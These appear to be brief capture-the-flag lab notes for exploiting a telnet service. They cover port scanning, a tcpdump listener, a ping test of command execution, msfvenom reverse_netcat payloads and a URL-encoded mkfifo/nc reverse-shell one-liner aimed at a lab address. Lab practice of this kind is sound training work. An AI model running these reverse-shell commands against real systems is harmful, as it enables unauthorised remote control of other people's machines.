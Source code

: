 ```bash
telnet <IP> <port>
```

for all ports
```bash
nmap -p- <ip>
```

`tcpdump` listener
```bash
sudo tcpdump ip proto \\icmp -i tun0
```

inside telnet
sent 1 ping message
```
.RUN ping <my-local-ip> -c 1
```

generating reverse shell

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

msfvenom -p cmd/unix/reverse_netcat lhost=10.10.124.127 lport=4444 R
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.242.20 lport=4444 R
```


```bash
nc -lvp 4444
```

mkfifo /tmp/koquey; nc 10.10.242.20 4444 0%3C/tmp/koquey | /bin/sh %3E/tmp/koquey 2>&1; rm /tmp/koquey

